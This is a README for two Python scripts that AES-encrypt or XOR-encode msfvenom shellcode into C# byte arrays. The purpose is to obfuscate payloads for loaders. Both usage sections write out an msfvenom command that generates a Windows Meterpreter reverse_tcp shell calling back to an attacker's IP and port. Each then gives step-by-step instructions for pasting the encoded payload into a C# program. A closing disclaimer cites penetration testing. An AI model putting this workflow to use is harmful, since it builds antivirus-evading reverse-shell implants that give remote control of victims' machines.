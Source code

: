   ## AES256enc.py What does it do.
This Python script encrypts c# shellcode using AES (Advanced Encryption Standard) in CBC (Cipher Block Chaining) mode.  
It generates a random AES key and IV (Initialization Vector), encrypts the shellcode, and outputs the encrypted data in a format compatible with C# applications.

**Output Results:**
- C# AES Key: The AES encryption key in xx-xx format.
- C# IV Key: The initialization vector (IV) in xx-xx format.
- C# Encrypted Shellcode: A formatted byte array containing the encrypted shellcode and its size, ready to use in C# applications.


## AES256enc.py Requirements
AES256.py uses cryptodome for AES and padding. In order to install you need to run  
`sudo apt update`  
`sudo apt install python3-pycryptodome`


## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 aes256enc.py`
- Shellcode has been formatted to paste into 1 line when you copy it over to visual studio code.
- Copy keys and shellcode into your c# program and enjoy!

  # Xorenc.py what does it do
  This Python script generates a random XOR key and encodes shellcode for use in C# applications. The encoded payload is formatted as a C# byte[] array, ready for integration into your projects.

  ## Features
  - Random XOR Key Generation: Produces a single-byte XOR key for obfuscating shellcode.
  - Shellcode Encoding: Encodes raw shellcode using the generated XOR key.
  - C# Output Formatting: Outputs the encoded payload as a byte[] array, compatible with C#.
 
  ## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 xorenc.py`
- Shellcode has been formatted to paste as 1 line when you copy it over to visual studio code.
- Copy key and shellcode into your c# program and enjoy!

**DISCLAIMER**

This script is intended for ethical purposes, such as penetration testing, and must comply with legal and ethical guidelines.



